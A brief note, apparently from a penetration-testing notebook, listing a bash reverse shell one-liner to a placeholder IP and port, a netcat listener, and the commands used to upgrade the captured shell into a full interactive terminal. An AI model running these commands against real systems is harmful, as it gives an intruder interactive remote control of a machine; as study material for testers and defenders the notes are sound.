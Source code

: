 
Interesting observation where a user upgraded the usability of their shell. Allows for the ability to up arrow prev commands.

```
`bash -c 'bash -i >& /dev/tcp/[IP]/[Port] 0>&1'

nc -nvlp 80


script -qc /bin/bash /dev/null
[CTRL+Z]

stty raw -echo; fg
			reset xterm


echo $TERM

export TERM=xterm
```


auto